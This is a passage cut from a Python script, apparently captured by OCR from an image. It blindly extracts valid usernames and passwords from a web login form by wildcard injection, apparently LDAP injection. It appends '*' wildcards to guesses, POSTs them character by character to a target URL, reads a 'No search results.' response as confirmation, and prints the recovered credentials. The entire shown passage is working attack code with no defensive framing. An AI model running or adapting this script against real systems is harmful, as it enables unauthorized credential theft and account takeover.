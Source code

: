 ```
			if passwd[-1] != "*":

				passwd += "*"

		except:
			pass
		

	elif cred_to_find == "passwd":

		usr_character = ''
		validate_usr = "*"
		validate_pass = ''

		try:
			if user_name[-1] != "*":
				user_name += "*"
		except:
			pass
		
	else:

		exit()



	while True:

		try:
			if cred_to_find == "user_name":

				usr_character = chr_selector(track)

			elif cred_to_find == "passwd":

				pass_character = chr_selector(track)


			r_ = requests.post(url, data={"username":user_name+usr_character+"*", "password":passwd+pass_character+"*"})


			if  (r_.status_code == 200) and ("No search results." in r_.text):

				user_name+=usr_character
				passwd+=pass_character
				
				r = requests.post(url, data={"username":user_name+validate_usr, "password":passwd+validate_pass})

				track=0

				print(f"Partially valid --> USERNAME : {user_name.replace('*', '')} | PASSWORD : {passwd.replace('*', '')}")
						
				if (r.status_code == 200) and ("No search results." in r.text):
					print(f"valid --> USERNAME : {user_name} | PASSWORD : {passwd}")

					break
				

				else:
					track+=1
```